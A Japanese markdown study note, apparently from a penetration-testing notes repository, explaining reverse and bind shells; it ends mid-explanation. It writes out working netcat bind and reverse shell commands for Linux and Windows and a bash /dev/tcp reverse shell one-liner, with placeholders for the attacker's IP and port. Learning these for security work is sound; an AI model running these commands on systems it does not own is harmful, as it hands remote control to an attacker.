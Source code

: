 # **リバースシェル**

サーバーからコネクションを張って攻撃者がサーバーを操作できるようにする攻撃手法

![](/%E8%84%86%E5%BC%B1%E6%80%A7%E8%A8%BA%E6%96%AD/web%E8%84%86%E5%BC%B1%E6%80%A7/img/reverseshell.png)

## netcat

* バインドシェル:接続してきた人に自端末の操作を渡す

    ```bash
    nc -v -l -p 1027 -e /bin/bash
    ```
    
    * [参考サイト](https://docs.oracle.com/cd/E56342_01/html/E54074/netcat-1.html)

        * -vオプション：詳細出力を指定
        * -lオプション：リモートホストへの接続を開始せずに、着信する接続を待機
        * -pオプション：-lオプションと一緒に使った場合待機ポートの指定となる
        * -eオプション：-e programで利用。接続の受け入れまたは実行後に外部プログラムを実行する

    * バインドシェルはfirewallではじかれることが多い。

    
![](/%E8%84%86%E5%BC%B1%E6%80%A7%E8%A8%BA%E6%96%AD/web%E8%84%86%E5%BC%B1%E6%80%A7/img/reverseshell_netcat.png)


* リバースシェル

    * 攻撃端末で実行するコマンド

        ```bash
        nc -v -l -p <待ち受けポート番号>
        ```

    * 被害端末で実行するコマンド

        ```bash
        nc -v <攻撃端末IP> <攻撃端末ポート> -e /bin/bash
        ```

    * 被害者端末で実行するコマンド(windowsの場合)

        ```windows
        nc.exe -v [攻撃者のPCのIPアドレス] [攻撃者のPCの待ち受けポート番号] -e cmd.exe
        ```



## bash

* リバースシェル

    * 被害端末で実行するコマンド

        ```bash
        bash –i >& /dev/tcp/[IPアドレス]/[ポート番号] 0>&1
        ```
            * [参考サイト](http://linux-cmd.com/bash.html)
            * -iオプション：-iオプションが指定されると、bashは対話的(interactive)に動作する
            * >&：